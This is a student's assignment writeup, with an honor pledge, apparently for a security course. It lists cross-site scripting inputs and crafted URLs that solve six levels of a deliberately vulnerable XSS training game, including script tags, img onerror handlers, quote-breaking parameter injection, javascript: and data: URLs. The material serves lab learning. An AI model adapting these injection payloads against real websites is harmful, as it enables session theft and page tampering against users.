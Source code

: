 # Crypto II Writeup

Name: Benjamin Chen
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Benjamin Chen

## Assignment Writeup

### Part 1 (40 Pts)

Website never worked?

### Part 2 (60 Pts)

1) Input: <script>alert()</script>

2) Input: <img src = "foo" onerror=alert();>

3) Full URL: https://xss-game.appspot.com/level3/frame#1+".jpg'/> <img src ='foo' onerror=alert();>

4) Full URL: https://xss-game.appspot.com/level4/frame?timer=')%3Balert()%3Bvar foo=('

5) Full URL: https://xss-game.appspot.com/level5/frame?next=javascript:alert()

Then enter anything in the email textbox and hit next

6) Full Url: https://xss-game.appspot.com/level6/frame#data:text/plain,alert()


